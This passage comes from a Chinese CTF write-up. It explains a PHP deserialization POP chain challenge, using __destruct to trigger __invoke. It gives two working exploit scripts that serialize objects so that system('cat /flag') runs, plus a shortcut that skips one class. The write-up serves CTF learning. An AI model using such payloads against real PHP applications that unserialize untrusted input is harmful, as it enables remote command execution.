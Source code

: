 把上面的填在密码那里就行。

## 垫刀之路06: pop base mini moe

这题是 php 反序列化漏洞的基础题。观察到 classB 有一个 `__invoke` 函数。这是一个 php 魔术方法，当对象被当作函数调用时自动触发。所以我们可以把一个对象 B 当作函数调用。这条链的起点就是 `__destruct` 函数。

想要把一个对象赋值给一个对象属性，而且还是私有的属性，我们不能直接赋值，也不能在外面赋值，但是我们可以使用 `__construct` 构造函数来赋值。下面就是 exp：

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a;

    public function __construct() {
        $this->a = new B();


    }
}

class B {
    private $b = "system";

}

$a = new A();
echo urlencode(serialize($a));
```

最后使用 `urlencode` 编码，就是因为序列化之后，private 属性的内容会有不可见字符。我们直接把他编码就行。

另外由于考虑不周，其实 B 类内部的考点可以直接运用于 A 内部，也就是说直接把 "system" 写在 A 里面，绕过了 B 类：

```php
<?php

class A {
    // 注意 private 属性的序列化哦
    private $evil = "cat /flag";

    // 如何赋值呢
    private $a = "system";
}
$a = new A();
echo urlencode(serialize($a));
```

## 垫刀之路07: 泄漏的密码

